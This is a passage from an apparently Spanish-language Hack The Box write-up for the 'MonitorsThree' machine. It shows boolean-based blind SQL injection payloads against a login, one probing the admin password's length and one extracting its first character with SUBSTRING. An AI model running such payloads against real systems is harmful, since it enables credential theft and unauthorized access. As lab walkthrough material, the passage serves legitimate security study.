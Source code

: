 Respuesta de la web
* "Content-Length: `3380`".

```sql
admin' AND (SELECT 'a' FROM users WHERE username='admin' AND CHAR_LENGTH(password)>=33)='a'-- -
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree2_8.png)

Con el usuario admin identificado y la longitud de su contraseña determinada, el siguiente paso es extraer la contraseña carácter por carácter.

La función `SUBSTRING()` permite obtener un carácter específico de una cadena. En este caso, se extrae el primer carácter de la contraseña del usuario admin:

```sql
admin' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'-- -
```

![](assets/img/htb-writeup-monitorsthree/monitorsthree2_9.png)